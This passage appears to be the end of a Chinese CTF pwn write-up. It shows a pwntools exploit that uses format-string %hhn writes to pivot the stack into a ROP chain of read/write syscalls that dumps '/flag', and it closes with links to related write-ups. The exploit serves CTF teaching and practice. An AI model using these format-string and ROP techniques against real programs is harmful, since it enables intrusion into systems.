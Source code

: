 ```

rop += p64(pop_rax)
rop += p64(0)
rop += p64(pop_rdi)
rop += p64(1)
rop += p64(pop_rsi)
rop += p64(buf+0x500)
rop += p64(pop_rdx)
rop += p64(0x100)
rop += p64(syscall)#read(1,buf+0x500,0x100)

rop += p64(pop_rax)
rop += p64(1)
rop += p64(pop_rdi)
rop += p64(2)
rop += p64(pop_rsi)
rop += p64(buf+0x500)
rop += p64(pop_rdx)
rop += p64(0x100)
rop += p64(syscall)#write(2,buf+0x500,0x100)


#set pop_rsp
pay = "%"+str((stack-0x8)&amp;0xff)+"c%6$hhn"
p.sendline(pay)

pay = "%"+str(pop_rsp_4&amp;0xff)+"c%10$hhn"
p.sendline(pay)

pay = "%"+str((stack-0x8+1)&amp;0xff)+"c%6$hhn"
p.sendline(pay)

pay = "%"+str((pop_rsp_4&gt;&gt;8)&amp;0xff)+"c%10$hhn"
p.sendline(pay)


#set return address and write rop_gadget
pay = "%"+str((stack-0x10)&amp;0xff)+"c%6$hhn"
p.sendline(pay)
p.recv()
#gdb.attach(p,'b *$rebase(0xF35)')
pay = "%"+str(0x3c)+"c%10$hhn"
pay = pay.ljust(0x18,'\x00')
pay += rop
pay = pay.ljust(0x100,'\x00')
pay += '/flag\x00'
p.sendline(pay)
p.recv(0x3c)


p.interactive()
```



## 参考链接

[详解 De1ctf 2019 pwn——unprintable](https://www.anquanke.com/post/id/183859#h2-5)

[全国大学生信息安全竞赛决赛部分pwn题解](https://www.anquanke.com/post/id/219140)

